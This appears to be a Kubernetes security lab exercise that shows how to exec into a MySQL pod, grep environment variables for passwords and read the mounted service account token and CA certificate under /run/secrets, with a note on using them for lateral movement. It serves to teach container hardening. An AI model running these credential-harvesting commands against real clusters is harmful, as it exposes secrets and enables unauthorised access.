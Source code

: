 # Exercise 21 (Attacking secret storage)

## Preface:
If your targets are ___"mounting"___ secrets inside of containers, you can generally find them in two places.

- In the file system
- In enlivenment variables

### You should still have the 

```bash

kubectl exec -it $(kubectl get pods -l app=mysql -o=jsonpath='{.items[0].metadata.name}') /bin/bash

```

- Once in the container you can run something like this.

```bash
root@mysql-6c8b769d74-g269z:/# env |grep -i pass

MYSQL_PASSWORD=###############
MYSQL_ROOT_PASSWORD=xxxxxxxx

### or in the File system like this.

root@mysql-6c8b769d74-g269z:/# ls -R /run/secrets/
/run/secrets/:
kubernetes.io

/run/secrets/kubernetes.io:
serviceaccount

/run/secrets/kubernetes.io/serviceaccount:
ca.crt  namespace  token

root@mysql-6c8b769d74-g269z:/# cat /run/secrets/kubernetes.io/serviceaccount/ca.crt    
-----BEGIN CERTIFICATE-----
MIIC5zCCAc+gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
a3ViZUNBMB4XDTIwMDMyNDA1MDYyNloXDTMwMDMyMzA1MDYyNlowFTETMBEGA1UE
AxMKbWluaWt1YmVDQTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAKp4
```

### Yes thats right lots of interesting stuff is ___"mounted"___ inside the container at run time.

## Review:
Depending on the constraints admins have put on pods and hardening of the containers in general, you can gleam a lot of information from inside the container and use that info to laterally move within the cluster.

## Clean up:

None

 [Return to schedule](../../Docs/SCHEDULE.md)